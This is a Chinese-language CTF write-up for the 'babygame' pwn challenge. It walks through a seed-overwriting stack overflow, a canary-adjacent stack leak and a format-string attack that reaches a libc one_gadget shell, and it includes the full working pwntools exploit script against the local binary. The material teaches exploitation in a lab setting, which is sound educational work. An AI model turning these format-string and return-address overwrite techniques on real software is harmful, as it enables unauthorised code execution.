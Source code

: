 这应该是今年虎符的pwn题里面最简单的一道题了。首先要过的关就是随机数。

源文件：[my_github](https://github.com/Hornos3/pwnfile)

在main函数输入姓名时有一个溢出，可以溢出到种子那里将种子修改。这样后面的结果就不会变了。用C语言写一个程序跑一下出结果。如下为脚本片段：

![在这里插入图片描述](https://img-blog.csdnimg.cn/10029907cd8b4896a2cbfc8ace1c9276.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```python
io.sendlineafter(b'Please input your name:', b'1234567890' * 26 + b'aaaaa')

srand = 0x30393837

answer = [1, 2, 2, 1, 1, 1, 1, 2, 0, 0,
		  2, 2, 2, 1, 1, 1, 2, 0, 1, 0,
		  0, 0, 0, 1, 0, 1, 1, 2, 2, 1,
		  2, 2, 2, 1, 1, 0, 1, 2, 1, 2,
		  1, 0, 1, 2, 1, 2, 0, 0, 1, 1, 
		  2, 0, 1, 2, 1, 1, 2, 0, 2, 1, 
		  0, 2, 2, 2, 2, 0, 2, 1, 1, 0, 
		  2, 1, 1, 2, 0, 2, 0, 1, 1, 2, 
		  1, 1, 1, 2, 2, 0, 0, 2, 2, 2, 
		  2, 2, 0, 1, 0, 0, 1, 2, 0, 2]

for i in range(100):
	try:
		io.sendlineafter(b'round', str(answer[i]).encode())
	except EOFError:
		print("Failed in " + str(i))
		exit(0)
```

注意这里为什么输入name时要输入这个，我们将0x30393837作为种子，之后的部分用于填充栈内容，在b'aaaa'之后实际上就是canary了，我们之后不准备返回到这个位置，因此这个canary可以覆盖。覆盖之后程序输出时会将canary剩下的内容连带着后面的rbp一同输出，这样我们就能够获取栈的地址了。


在这之后会进入一个函数（以下称为vuln函数），里面有一个格式化字符串漏洞。

我们使用的libc版本与题目的版本相同，均为2.31。可以看到main函数的返回地址为__libc_start_main+243，我们可以使用格式化字符串漏洞将这个地址泄露出来。但是这里由于只有一个printf，在泄露之后还需要进行其他操作才有可能getshell，因此还需要将函数的返回地址修改一下。从IDA可以看到vuln函数的返回地址为0x1543，需要将其修改，如果能够再次进入vuln函数是最好。但是vuln函数的起始地址为0x13FB，如果将返回地址直接修改为vuln函数的起始地址，意味着我们需要修改返回地址最后两个字节。这就又会造成一个问题：倒数第二个字节的高4位无法确定。由页对齐我们可以修改最低12位，但同时这样修改会附带修改往上4位。这里成功率仅为1/16。理论上可以实现，但是还有没有更好的办法了呢？

```
.text:0000000000001539                 mov     eax, 0
.text:000000000000153E                 call    vuln
.text:0000000000001543
.text:0000000000001543 loc_1543:                               ; CODE XREF: main+D2↑j
.text:0000000000001543                 mov     eax, 0
.text:0000000000001548                 mov     rcx, [rbp+var_18]
```

答案当然是肯定的。我们不一定非得把返回地址改成vuln的起始地址，改成调用vuln函数的地址不也行吗，刚好上面就是调用call指令，我们只需要修改最低1字节为3E就可以返回到153E，然后直接call再次进入。这样的话，字符串的前面一部分就是%62c%8\$hhn，后面跟\%79\$p或\%79\$llx获取到__libc_start_main+243的地址和返回地址指针。这是第一轮格式化字符串漏洞注入。为了确保对齐，在'\%79\$p'前面加上一个'a'。

![在这里插入图片描述](https://img-blog.csdnimg.cn/bfb5f848e25c4345960890986edca36b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```
io.sendlineafter(b'Good luck to you.', 
	b'%62c%8$hhna%79$p' + p64(stack_addr - 0x218))
```

注入之后，程序会返回libc的偏移地址。

然后我们进行第二次格式化字符串注入。通过gdb调试知道第二次注入和第一次注入时返回地址所在的位置是一样的。我们就可以套用这个地址。

使用one_gadget工具获取到这个版本中一共有3个one_gadget：

```
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

我们逐一尝试。

我一开始使用LibcSearcher查偏移，发现都不行，用ELF.symbols直接解析本机libc文件就可以。

payload：

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.arch = 'amd64'

io = process('./babygame')

io.sendlineafter(b'Please input your name:', b'1234567890' * 26 + b'aaaaa')

io.recvuntil(b'Hello, ')

io.recv(260 + 12)

stack_addr = u64(io.recv(6) + b'\x00\x00')

srand = 0x30393837

answer = [1, 2, 2, 1, 1, 1, 1, 2, 0, 0,
		  2, 2, 2, 1, 1, 1, 2, 0, 1, 0,
		  0, 0, 0, 1, 0, 1, 1, 2, 2, 1,
		  2, 2, 2, 1, 1, 0, 1, 2, 1, 2,
		  1, 0, 1, 2, 1, 2, 0, 0, 1, 1, 
		  2, 0, 1, 2, 1, 1, 2, 0, 2, 1, 
		  0, 2, 2, 2, 2, 0, 2, 1, 1, 0, 
		  2, 1, 1, 2, 0, 2, 0, 1, 1, 2, 
		  1, 1, 1, 2, 2, 0, 0, 2, 2, 2, 
		  2, 2, 0, 1, 0, 0, 1, 2, 0, 2]

for i in range(100):
	try:
		io.sendlineafter(b'round', str(answer[i]).encode())
	except EOFError:
		print("Failed in " + str(i))
		exit(0)

# gdb.attach(io)

io.sendlineafter(b'Good luck to you.', 
	b'%62c%8$hhna%79$p' + p64(stack_addr - 0x218))

io.recvuntil(b'0x')
libc_addr = int(io.recv(12).decode(), 16)
print(hex(libc_addr))

libc_addr -= 243

# Libc = LibcSearcher('__libc_start_main', libc_addr)
Libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
# base = libc_addr - Libc.dump('__libc_start_main')
base = libc_addr - Libc.symbols['__libc_start_main']
libc_system_addr = Libc.symbols['system']
mem_system_addr = base + libc_system_addr

print(hex(stack_addr - 0x218))
# gdb.attach(io)

one_gadget = [0xE3B2E + base, 0xE3B31 + base, 0xE3B34 + base]

payload = fmtstr_payload(6, {stack_addr - 0x218: one_gadget[1]})
io.sendlineafter(b'Good luck to you.', payload)

io.interactive()
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/08fa654ff07f4141837b14f0f93153a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

这道题看似简单，实际上细节还是比较多的。如果做题做的不多的话很容易在一些地方就卡住了。因此后面还是多做题为妙。
